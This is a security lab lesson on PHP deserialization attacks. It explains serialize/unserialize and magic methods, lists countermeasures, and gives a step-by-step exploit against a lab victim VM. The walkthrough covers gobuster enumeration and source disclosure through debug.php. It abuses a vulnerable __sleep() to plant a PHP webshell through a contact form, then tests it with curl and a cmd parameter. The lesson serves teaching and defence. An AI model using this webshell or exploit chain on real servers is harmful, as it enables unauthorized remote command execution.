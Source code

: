 ```yaml
---
title: "Deserialization/Serialization Attack"
teaching: 3
exercises: 30
questions:
- "What is deserialization/serialization?"
- "What are the php magic methods?"
- "What are the countermeasures?"
objectives:
- "Describe deserialization attacks."
- "Understand simple exploit."
- "Write code that avoid deserialization attacks."
---
```



## What is deserialization/serialization?

Serialization is the process of turning some object into a data format that can be restored later.
People often serialize objects in order to save them to storage, or to send as part of
communications. In php, the code looks like this: serialize(mixed $value): string

Deserialization is the reverse of that process, taking data structured from some format, and
rebuilding it into an object. Today, the most popular data format for serializing data is JSON.
Before that, it was XML. In php, the code looks like this:
unserialize(string $data, array $options = []): mixed

![demodiagram](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/e9ac88ff-50bb-4e5e-802b-989fb8f7e830)

## What are the php magic methods?

In PHP, magic methods are special methods that allow you to define custom behavior for certain
actions or events that occur on an object. These methods are automatically called by PHP based
on specific naming conventions, and they override the default behavior of PHP for those actions.

For example, __sleep() is a magic method in PHP that is called automatically when the
serialize() function is called on an object. PHP checks if the class of the object being serialized
has a method named __sleep(). If such a method exists, it is executed before the serialization
process starts. This allows you to define custom logic to prepare the object for serialization, such
as cleaning up sensitive data or performing additional data manipulation.

![deserphp](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/3e84e433-2db1-477f-8e19-357c0508fa42)

The code defines a PHP class called "test" using the "class" keyword. The class has a single
method called "__sleep()". The "__sleep()" method is a magic method in PHP that is
automatically called when you try to serialize an object of this class using the "serialize()"
function.

![desersleep](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/bea89035-748a-4d46-ae38-448ebcfdb8ac)

Within the "__sleep()" method, the code echoes the string "__sleep method called" using the
"echo" statement. This string will be printed when the "__sleep()" method is executed during
serialization.

The "__sleep()" method also returns an empty array using "return array();". In PHP, the purpose
of the "__sleep()" method is to allow you to specify which properties of an object should be
serialized. By returning an array of property names from "__sleep()", you can selectively choose
which properties should be included in the serialized representation of the object. In this case, an
empty array is returned, which means no properties will be serialized. You don’t need to pay
much attention to this property as it does not relate to the attack explained today
"serialize($new_test);"

The "serialize()" function is called with "$new_test" as an argument, which serializes the object
into a string representation. During serialization, PHP automatically calls the "__sleep()" method
of the "test" class, which echoes the string "__sleep method called" and returns an empty array.

## What are the countermeasures?

1. Input Validation: Validate and sanitize all input data, especially data that is being
deserialized. Implement strict input validation to ensure that only expected data types and
formats are accepted. Discard or reject any unexpected or malicious data during
deserialization.

2. Implement Access Controls: Implement access controls and permissions to restrict the
deserialization process to authorized users or systems. Limit the privileges of the
deserialized objects to the minimum necessary for their intended use.

3. Use Secure Serialization Methods: Use secure serialization methods, such as PHP's
"json_encode()" and "json_decode()" functions, which are less prone to deserialization
vulnerabilities compared to other serialization methods like "serialize()" and
"unserialize()".

### Demonstration
1. We will start by first adding the Deserialization Attack application:

![add_app](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/16e609c9-5446-4c6c-b70a-c7885dff74d9)

2. Next, click the View link to go to the application-specific page and start the application containers:

![start](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/5d192067-3366-4c4e-ae9e-106f158a6288)

3. Open the victim terminal and type 'ifconfig' to check the IP address for victim server  

![victim terminal](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/33064a4c-5a86-4e51-bb3c-44a057f0f4e9)

![victim-ip](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/cf19b27a-1609-480e-bee0-5206a11fc098)

4. launch the hacker’s web interfaces in separate browser tabs by clicking the icon next to the deserialization:

![attacker-link](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f39fc9c6-f46f-4476-84e2-03a2ec342e02)

5. On the deserialization vm, open firefox browser, or install any browser you like. Enter http://victim_ip to the URL bar to access the VNC session

![attacker-victim-vnc](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f2223721-b7fd-4914-abb3-825c9de2ec30)

6. Try going through the website like a normal user, is there anywhere you can exploit, anything you can enter?

Then, on the deserialization vm. use the command gobuster -w /wordlist/wordlist_php -u http://victim_ip to list the directory and hidden file on the webserver. Feel free to try other web enumeration tools, and use different wordlist as well.

![gobuster-command-1](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/8b1e4422-43c3-426b-90aa-eaa4a78358cc)

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a new file called debug.php running on the website. To open debug.php, use the command http://victim_ip/debug.php

![webpage-debug](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/1bb997d9-f217-47a0-84de-007e821cc54e)

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
source code of debug.php, you can enter the URL: viewsource:http://<victim's IP address>/debug.php?read=debug.php to view the source code of the
debug.php.

![webpage-debug-2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/ad22bd72-e436-4949-8ff3-d512471af9f8)

9. In the source code of debug.php, there are two Get parameters you can manipulate. One is called read and the other is execute. read can let you check the source code of the websites and execute will allow you to execute file contain PHP source code

![gobuster-command-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/45b13c9f-7732-4ad2-b2e0-ae1cebaef628)

10. When you run the gobuster tool, I am sure you have also found another php file called contact.php. contact.php is the file where the website will process the contact information entered by user, we can see the source code of this file by entering the URL: http://<victim's IP address>/debug.php?read=contact.php

![webpage-debug-3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/abff5019-6327-446b-b0fc-91bf59594dfb)

11. Upon reviewing the source code of contact.php file, what have you found? There is a critical vulnerability in the file, a deserialization vulnerability.

```
<?php
# Omitted some code

$new_customer = new customer;
$new_customer->name = $name;
$new_customer->email = $email;
$new_customer->comment = $comment;
$temp = serialize($new_customer);

# Omitted some code

class customer
{
   public $name;
   public $email;
   public $comment;
   public function __sleep()
   {
      // Write the content to file once the object is serialized
      $filename = $this->name . '_' . $this->email;
      file_put_contents("./user_info/$filename", $this-
>comment, FILE_USE_INCLUDE_PATH);
   }
}
?>
```

12. A closer look at the preceding code reveals that the vulnerability exists in the magic function __sleep() defined in the class customer. The logic in the function __sleep() shows that once an instance of class customer is serialized, it will write a file to a directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
Recall earlier I asked you to find the parameter you can interact with on the website,
there is a webpage where you can enter user defined text. To navigate to this page, enter
the URL http://victim_ip/contact.html to access the page.

![attacker-victim-vnc2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/d97ddab3-76ae-43a0-853a-9f3a63b07f6b)

14. On this page, there are three parameters you can define: name, email, and comment. If you still remember the source code of the contact.php file, you can make an educated guess that the contact.php will handle the post request sent by contact.html form. If you want to verify that, you can also download burpsuites and verify. Or you can also examine the source code of the contact.html page to see where the POST request is sent to.

![demodiagram2](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/08579174-32fa-4df9-bcfd-96bb608d5d2b)

15. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
entering all the text, click submit to plant the webshell

![demodiagram3](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/47192691-5a79-4f79-88e7-0f2e0384e999)

16. On the attacker VM, use the command curl
http://victim_ip/user_info/test_user.php?cmd=whoami to test whether the planted
webshell is working or not.

![result](https://github.com/markyu0401/Deserialization-Attack/assets/60618569/f3c29b0e-0756-48ce-97bf-e5058091f85f)

17. A secure server is running on the Secure server's IP address, you are welcome to try attacking
it, but it does not have the deserialization vulnerability and misconfiguration present on
the victim VM.




